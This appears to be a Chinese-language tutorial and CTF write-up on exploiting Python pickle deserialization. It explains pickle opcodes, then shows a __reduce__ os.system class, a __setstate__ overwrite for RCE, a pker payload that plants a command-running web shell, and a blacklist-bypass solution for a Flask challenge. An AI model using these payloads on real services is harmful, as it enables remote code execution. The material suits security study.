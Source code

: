 ### pickle

![](Python Pickle 序列化/v2-c01327e7df64f9e3ccd13a9e19f72875_720w.png)

注意：自己定义的class，一定要把初值写进`__init__`。

`pickle.loads`是一个供调用的接口，其底层实现是基于`_Unpickler`类。

利用`pickletools`可以反汇编一个已经被打包的字符串、优化一个已经被打包的字符串、返回一个迭代器来供程序使用。

![](Python Pickle 序列化/v2-5a4aedd8db8446ba20bd0421d5e1288a_720w.webp)

1. `\x80`：机器立刻再去字符串读取一个字节，得到协议号。
2. `c`：GLOBAL操作符，连续读取两个字符串，规定以`\n`为分割，接下来把其压进栈。
3. `)`：把一个空的tuple压入当前栈。
4. `x81`：从栈中先弹出一个元素，记为`args`；再弹出一个元素，记为`cls`。
   1. 执行`cls.__new__(cls, *args)` ，然后把得到的东西压进栈。
   2. 从栈中弹出一个参数和一个class，然后利用这个参数实例化class，把得到的实例压进栈。
5. `}`：把一个空的dict压进栈。
6. `MARK`：
   1. `load_mark`：
      1. 把当前栈这个整体，作为一个list，压进前序栈。
      2. 把当前栈清空。
   2. `pop_mark`：它没有操作符，只供其他的操作符来调用。
      1. 记录一下当前栈的信息，作为一个list，在`load_mark`结束时返回。
      2. 弹出前序栈的栈顶，用这个list来覆盖当前栈。
7. `V`：读入一个字符串，以`\n`结尾，然后把这个字符串压进栈中。
8. `u`操作符：
   1. 调用`pop_mark`，把当前栈的内容扔进一个数组`arr`，然后把当前栈恢复到MARK时的状态。
   2. 执行完成之后，`arr=['name', 'rxz', 'grade', 'G2']`，当前栈里面存的是`__main__.Student`这个类、一个空的`dict`。
   3. 拿到当前栈的末尾元素，规定必须是一个`dict`。这里，读到了栈顶那个空`dict`。
   4. 两个一组地读`arr`里面的元素，前者作为key，后者作为value，存进上一条所述的`dict`。
9. `b：BUILD指令。`
   1. 把当前栈栈顶存进`state`，然后弹掉。
   2. 把当前栈栈顶记为`inst`，然后弹掉。

### pickletools

帮助理解pickle。

```python
import pickle
import pickletools

tmp = """(cbuiltins
globals
oq\x00X\t\x00\x00\x00blacklistq\x01}q\x02s.""".encode()
unpickled_data = pickle.loads(tmp)
parsed_data = pickletools.dis(tmp)
print(parsed_data)

#     0: (    MARK
#     1: c        GLOBAL     'builtins globals'
#    19: o        OBJ        (MARK at 0)
#    20: q    BINPUT     0
#    22: X    BINUNICODE 'blacklist'
#    36: q    BINPUT     1
#    38: }    EMPTY_DICT
#    39: q    BINPUT     2
#    41: s    SETITEM
#    42: .    STOP
# highest protocol among opcodes = 1
# None
```

### 利用

##### `__reduce__`

`__reduce__`方法的指令码是`R`，其作用为：

- 取当前栈的栈顶记为`args`，然后把它弹掉。
- 取当前栈的栈顶记为`f`，然后把它弹掉。
- 以`args`为参数，执行函数`f`，把结果压进当前栈。

```Python
class obj():
    def __init__(self):
        ...
    def __reduce__(self):
        return (os.system, ('ls /',))
```

#####  Build指令

逻辑：如果`inst`拥有`__setstate__`方法，则把`state`交给`__setstate__`方法来处理；否则的话，直接把`state`这个`dist`的内容，合并到`inst.__dict__ `里面。

![](Python Pickle 序列化/v2-ae7ce8d82f16d90bda791e4bc5e06f1d_720w.png)

如果对象原先是没有`__setstate__`这个方法的，那么利用`{'__setstate__': os.system}`来BUILE这个对象，那么现在对象的`__setstate__`就变成了`os.system`；接下来利用`"ls /"`来再次BUILD这个对象，则会执行`setstate("ls /")` ，而此时`__setstate__`已经被设置为`os.system`，因此实现了RCE。

![](Python Pickle 序列化/v2-5f6f6661a916b296e3fac6fbed8427cc_720w.png)

#### pker

[EddieIvan01/pker: Automatically converts Python source code to Pickle opcode ](https://github.com/eddieivan01/pker)

使用pker可以帮助构造payload。

```shell
PS ...> Get-Content .\exp.py | python .\pker.py
b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'exec\'\ntRp6\n0g6\n(S\'index.GET = lambda self:__import__("os").popen(web.input().cmd).read()\'\ntR.'
```

### Challenge

#### 黑名单

```python
import base64
import pickle
from flask import *
import builtins
import io

app = Flask(__name__)
blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit', 'system', 'env'}

class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))

def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()

@app.route('/',methods=['GET'])
def index():
    args = request.args
    if not args.get('data'):
        return "none"
    else:
        pickle_data = args.get('data').encode('utf-8')
        try:
            tmp = base64.b64decode(pickle_data)
            for i in blacklist:
                if i.encode("utf-8") in tmp:
                    raise pickle.UnpicklingError("%s is forbidden" % i)
                    continue
            data = restricted_loads(tmp)
            return "<script>alert('OK')</script>"
        except Exception as e:
            print("Error", e)
            return "<script>alert('Error')</script>"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=9999)
```

利用反序列化将blacklist置为空，然后再利用。

```python
import base64
import pickle
import pickletools
import pker

blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit', 'env', 'system'}

data = {'blacklist': {}}
pickle_string = pickle.dumps(data, protocol=1)
print(pickle_string)
tmp = """(cbuiltins
globals
oq\x00X\t\x00\x00\x00blacklistq\x01}q\x02s.""".encode()
# unpickled_data = pickle.loads(tmp)
# parsed_data = pickletools.dis(tmp)
# print(parsed_data)
print(base64.b64encode(tmp))

payload = '''
globa1=GLOBAL("builtins","globals")
glob=globa1()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
builtins=get(glob,"__builtins__")
eval=getattr(builtins,"eval")
eval('__import__("os").system("calc")')
return'''

payload = pker.cons(payload)
print(payload)
payload = base64.b64encode(payload)
print(payload)
```



